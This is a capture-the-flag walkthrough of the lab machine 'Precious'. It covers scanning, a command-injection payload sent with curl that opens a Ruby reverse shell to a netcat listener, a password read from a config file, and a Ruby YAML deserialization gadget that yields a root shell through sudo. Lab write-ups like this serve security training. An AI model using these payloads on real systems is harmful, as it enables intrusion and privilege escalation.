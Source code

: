 # Precious

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/95ee232f-ce38-42aa-b5e1-60f94804129d)

## Difficulty = Easy
---
Run your nmap scan:

```sh
# Nmap 7.94 scan initiated Sat Aug 12 04:11:57 2023 as: nmap -sVC --min-rate=1000 -T4 --script vuln -oN nmap.txt -v 10.10.11.189
Nmap scan report for 10.10.11.189
Host is up (0.25s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:8.4p1: 
|     	CVE-2021-28041	4.6	https://vulners.com/cve/CVE-2021-28041
|     	CVE-2021-41617	4.4	https://vulners.com/cve/CVE-2021-41617
|     	CVE-2020-14145	4.3	https://vulners.com/cve/CVE-2020-14145
|     	CVE-2016-20012	4.3	https://vulners.com/cve/CVE-2016-20012
|_    	CVE-2021-36368	2.6	https://vulners.com/cve/CVE-2021-36368
80/tcp open  http    nginx 1.18.0
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 12 04:23:23 2023 -- 1 IP address (1 host up) scanned in 686.08 seconds
```

Nothing seems to be interesting in our nmap scan, so let navigate to port 80/http :

![](https://i.imgur.com/xheYSoH.png)

Looks like we have a web page that convert websites to PDF's, i wasn't sure enough, so i used wappalyzer to check technologies :

![](https://i.imgur.com/fepM8Ky.png)

First of all enumerating `phushion passenger 6.0.15 exploit`, Nothing seems to be interesting than a privilege escalation vector which is after we have foothold, we don't have that yet :

![](https://i.imgur.com/TVBdAQD.png)

Enumerating `nginx 1.18.0 exploit` doesn't to have any connection to what i want, i need something like command injection exploit :

![](https://i.imgur.com/PwbZGVG.png)

---

I then decided to load a URL on the site again, for this you have to start a python http server:

- Touch a txt file on your terminal `touch bankai.txt`
- then start up the python web server with `python3 -m http.server 80`

![](https://i.imgur.com/drwrQTn.png)

Now click submit

- I noticed the site is downloading a PDF once we submit the URL

![](https://i.imgur.com/J7z1gEe.png)

- so i opened the PDF and nothing was there, then decided to use `exiftool` to check any meta-data and i got a version of what is generating this PDF for us :

![](https://i.imgur.com/MWH53Hj.png)

Nice😘

Now let enumerate this version 

![](https://i.imgur.com/EFfPt9U.png)

Looks like we are getting somewhere, after scraping around, i found a way to get shell with this syntax:

*Instructions :*

- Start a python http server with `python3 -m http.server 80`
- start your netcat listener `nc -lvnp 4444`
- Then use this payload on you command line :

```sh
curl 'TARGET_ADDRESS' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: TARGET_ADDRESS' -H 'Connection: keep-alive' -H 'Referer: TARGET_ADDRESS' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'url=http%3A%2F%2FLOCAL-ADDRESS%3ALOCAL-PORT%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22LOCAL-ADDRESS%22%2CLOCAL-PORT%29%29%27%60'
```

- Make sure to replace `TARGET_ADDRESS`, `LOCAL_ADDRESS` and `LOCAL_PORT` with their respective info, fire it up and things should work :

![](https://i.imgur.com/Nv0JhuD.png)

> POV : it looks like we still got reverse shell with ruby cos' the `--data-raw` header makes a request to execute this ruby command as a reverse shell -->
> `ruby -rsocket -e 'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.12",4444))'


### Privilege Escalation

- Navigating to the home directory, we have an unusual file called `.bundle`

![](https://i.imgur.com/Jtqq5dq.png)

- Inside .bundle is a config file, concatenating the config file gives us Henry password

![](https://i.imgur.com/nvy95vG.png)

- Successfully switched user to henry, running `sudo -l` tells us we can run `/opt/update_dependencies.rb` as root

![](https://i.imgur.com/ifmdF8Z.png)

- Running the files seems to give me errors, so i changed directory to /opt
- We can see that we have another directory here which has a `dependencies.yml` file

![](https://i.imgur.com/sbkhfCp.png)

- Making my research i saw we can update privileges by editing this file
- We also don't have write access to this `dependencies.yml` file which is a problem
- One more problem, if your shell gives you problem, login via SSH with Henry and the password we got.

![](https://i.imgur.com/jpoQonU.png)

- After much enumeration, i found out i could create a `dependencies.yml` file in /tmp too and it will be read, So;
- change directory to /tmp --> `cd /tmp`
- then do --> `nano dependencies.yml`

- Now paste this code directly and do `ctrl+x` to save

```YML
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: /bin/bash
         method_id: :resolve
```

- Now run the file with `sudo /usr/bin/ruby /opt/update_dependencies.rb` 

![](https://i.imgur.com/65JDjk3.png)

Booyah 😅, and we are root

